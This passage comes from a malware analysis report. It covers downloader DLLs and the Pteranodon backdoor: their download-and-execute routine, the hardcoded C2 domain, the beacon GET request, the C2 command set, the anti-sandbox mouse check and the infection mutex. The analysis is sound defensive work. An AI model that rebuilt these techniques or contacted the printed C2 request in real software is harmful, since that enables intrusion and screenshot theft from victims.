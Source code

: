 C:\Users\<Username>\AppData\Local\Temp\frAQBc8Wsa

Then, it uses the API function URLDownloadToFileA() to download a payload to disk and executes it via CreateProcess(). Finally, it sleeps for 60 seconds before terminating the payload and the DLL exits.
Downloader: MSO8734.obn / MpClients.dll
This file is a slightly more advanced version of LocalSMS.dll downloader. Instead of downloading a payload directly to disk, this file requests a download command from the C2 server which contains the actual payload URL to be used. Therefore, it uses a basic network implementation based on the Winsock functions. All the functionality of this DLL is put into an export function named "bitDefender".
It creates a socket, requests the address of the hardcoded C2 server "win-restore.ru" via gethostbyname() and connects to it. Thereafter, it also collects the volume serial number of C:\ drive, the computer name and the hardware profile GUID. With this information, it creates the following string used by a subsequent send() function call:
"GET /css.php?id=WIN-MLABCSUOVJB_{826ee360-7139-11de-8d20-808e6f6e6263}1956047236 HTTP/1.1
Host: win-restore.ru
Connection: close"
The response will be stored into a memory buffer via recv() and scanned for the string "urltoload={". As the name suggests, the received data contains the actual URL of the payload inside curly brackets. The URL gets pulled out of the string and is used again as input for the API function URLDownloadToFile(). Again, the same file path will be used to store the payload on disk and execute it:
"C:\Users\<Username>\AppData\Local\Temp\frAQBc8Wsa"
Pteranodon: MSO1234.win / winrestore.dll
Pteranodon is a backdoor which also can capture screenshots based on a configuration file created on the disk. Further, it uploads the screenshots to the C2 server unencrypted. All the functionality of this DLL is put into an export function named "updater".
At first, it retrieves the %APPDATA% folder of the local user to build the following file path:
"C:\Users\<Username>\AppData\Roaming\Microsoft\desktop.ini"
Then, it checks if the file already exists and continues execution if so. If not, it runs a routine which checks if there is mouse movement as an anti-sandbox technique. If no mouse movement is detected the malware runs in an infinite loop checking for mouse movement.
If the file "desktop.ini" does not exist, the malware creates it and writes the following information into it:
" interval={60} msfolder={10} status={0}"
This information is used as configuration data to create the screenshots. There are also other commands possible which can be retrieved from the C2 server. The following commands are available:
exec={
This command is used to download and execute a payload from a URL present in the curly brackets. It creates a random file path in temp folder, calls URLDownloadToFile() and CreateProcess() to run the payload. Then, it waits 30s and terminates the payload.
interval={
This command is used to define the interval in seconds between the creation of two or more screenshots.
msfolder={
This command defines the number of screenshots to create.
command={ / command_c={
This command is used to execute a file present as a string between the curly brackets. The variant with the "c" uses the Windows tool cmd.exe with help of ShellExecute().
status={
This command contains the flag which defines if screenshots should be made ("1") or not ("0").
Next, it checks for a mutex named "asassin1dj" to verify if the system is already infected and creates it if this isn't the case:
